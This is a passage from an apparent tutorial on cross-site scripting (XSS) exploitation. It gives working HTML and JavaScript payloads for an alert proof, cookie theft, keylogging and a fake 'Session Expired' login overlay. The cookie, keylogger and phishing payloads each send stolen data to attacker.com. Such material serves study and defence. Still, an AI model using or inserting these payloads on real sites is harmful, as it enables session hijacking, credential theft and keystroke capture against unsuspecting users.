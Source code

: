 The simplest form of XSS exploitation involves injecting a basic JavaScript payload to demonstrate the vulnerability.

**Example**:

```html
<script>alert('XSS')</script>
```

This payload, when successfully injected and executed, will display an alert box in the user's browser.

### 4.2 Cookie Theft

One of the most common goals of XSS attacks is to steal user session cookies, allowing the attacker to impersonate the victim.

**Example payload**:

```html
<script>
var img = new Image();
img.src = 'https://attacker.com/steal?cookie=' + document.cookie;
</script>
```

This script creates an image element with a source URL that includes the user's cookies, effectively sending them to the attacker's server.

### 4.3 Keylogging

XSS can be used to implement a keylogger, capturing user input on the compromised page.

**Example payload**:

```html
<script>
var keys = '';
document.onkeypress = function(e) {
    keys += e.key;
    if(keys.length > 10) {
        new Image().src = 'https://attacker.com/log?keys=' + keys;
        keys = '';
    }
}
</script>
```

This script captures keystrokes and sends them to the attacker's server in batches.

### 4.4 Phishing

XSS can be used to inject fake login forms or other deceptive content to trick users into revealing sensitive information.

**Example payload**:

```html
<div style="position:absolute;top:0;left:0;width:100%;height:100%;background-color:white;z-index:1000;">
    <h2>Session Expired</h2>
    <form action="https://attacker.com/phish">
        Username: <input type="text" name="username"><br>
        Password: <input type="password" name="password"><br>
        <input type="submit" value="Login">
    </form>
</div>
```
